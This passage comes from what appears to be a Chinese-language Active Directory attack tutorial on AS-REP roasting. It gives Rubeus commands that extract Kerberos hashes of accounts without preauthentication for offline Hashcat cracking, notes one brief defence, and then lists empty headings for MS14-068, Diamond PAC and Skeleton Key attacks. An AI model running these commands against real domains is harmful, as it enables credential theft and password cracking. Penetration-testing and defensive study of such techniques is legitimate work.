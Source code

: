 > 
> The reason for Kerberos preauthentication is to prevent offline  
> password guessing. While the AS-REP ticket itself is encrypted with  
> the service key (in this case the krbtgt hash) the AS-REP “encrypted  
> part” is signed with the client key, i.e. the key of the user we send  
> an AS-REQ for. If preauthentication isn’t enabled, an attacker can  
> send an AS-REQ for any user that doesn’t have preauth required and  
> receive a bit of encrypted material back that can be cracked offline  
> to reveal the target user’s password.

在现代 Windows 环境中，所有用户帐户都需要 Kerberos 预身份验证，但默认情况下，Windows 会在不进行预身份验证的情况下尝试进行 AS-REQ / AS-REP 交换，而后一次在第二次提交时提供加密的时间戳：

**6.1 实战手法**
------------

**1. 用 Rubeus 进行 AS-REP**

Rubeus 是用于原始 Kerberos 交互和滥用的 C＃工具集。

```
Rubeus.exe asreproast
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDA5DXibhcZibBZm7mvk0iaCBC5BmDPIvLepjdyRHZT6QClwiaOqERiaLibIyea4UCh6rY6zfTI4aMOpJYvw/640?wx_fmt=png)

这将自动查找所有不需要预身份验证的帐户，并提取脱机破解所需的加密 TGT 数据

我们也可以使用以下命令以 Hashcat 可以离线破解的格式提取数据对这种哈希执行快速的暴力破解密码。

```
Rubeus.exe asreproast /format:hashcat /outfile:C:Temphashes.txt
```

它将 AS-REP 哈希信息输出到文本文件。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDA5DXibhcZibBZm7mvk0iaCBC52l82ialofqLF2icXgl9TCOvxiah4KP9UlGJ40YGuJkoQPlhe0fYcMOB0g/640?wx_fmt=png)

对特定用户进行攻击

```
Rubeus.exe asreproast /user:TestOU3user
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDA5DXibhcZibBZm7mvk0iaCBC5Md4wPhJLAM03z7MJRKXDibk5r8VARrwSibYibOJhckia8vMA9vUGE197bg/640?wx_fmt=png)

**6.2 防御手法**
------------

识别不需要预身份验证的帐户  
免受此类攻击的明显保护是找到并删除设置为不需要 Kerberos 预身份验证的用户帐户的所有实例。

**7.0 MS14-068 伪造的 PAC 利用**
===========================

**8.0 钻石 PAC 使用金票和 MS14-068 伪造 PAC 的混合攻击**
==========================================

**9.0 Skeleton Key 攻击**
=======================